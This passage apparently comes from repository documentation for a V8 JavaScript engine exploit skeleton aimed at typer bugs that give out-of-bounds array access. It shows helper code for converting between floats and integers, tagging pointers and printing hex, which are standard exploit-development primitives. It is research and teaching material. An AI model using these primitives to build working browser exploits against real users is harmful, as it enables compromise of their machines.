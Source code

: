 The exploit skeleton that I have written is meant to take advantage of typer bugs that can get OOB accesses on an array. That being said, many of the primitives work exactly the same for map-confusion bugs. The skeleton requires finding a bug that can achieve this primitive, as well as the offsets required to overwrite the appropriate fields in our heap objects. This is best understood by looking at the example I wrote [here](https://github.com/pranayga/expl0ring_V8/blob/master/docs/Exploiting%20Bug%201051017.md).

### Helper Functions

These helper functions show the basic usage of ArrayBuffers using typed arrays and how you can convert the same memory region between ints and floats. There are also several functions for dealing with 32-bit vs 64-bit data and other things for pointer compression. There are way more functions here than what you'll typically use, but they may come in handy.

```
let ab = new ArrayBuffer(8);
let fv = new Float64Array(ab);
let dv = new BigUint64Array(ab);

// Float to Integer
function f2i(f) {
	fv[0] = f;
	return dv[0];
}

// Integer to Float
function i2f(i) {
	dv[0] = BigInt(i);
	return fv[0];
}

// Integer to Tagged Integer
function tagInt(i) {
	return i | 1n;
}

// Tagged Integer to Integer
function untagInt(i) {
	return i & ~1n;
}

// Float to Tagged Float
function tagFloat(f) {
	fv[0] = f;
	dv[0] += 1n;
	return fv[0];
}

// Tagged Float to Float
function untagFloat(f) {
	fv[0] = f;
	dv[0] -= 1n;
	return fv[0];
}

// Float to double word hex
function hexprintablef(f) {
	return (f2i(f)).toString(16).padStart(16, "0");
}

// Integer to double word hex
function hexprintablei(i) {
	return (i).toString(16).padStart(16, "0");
}
```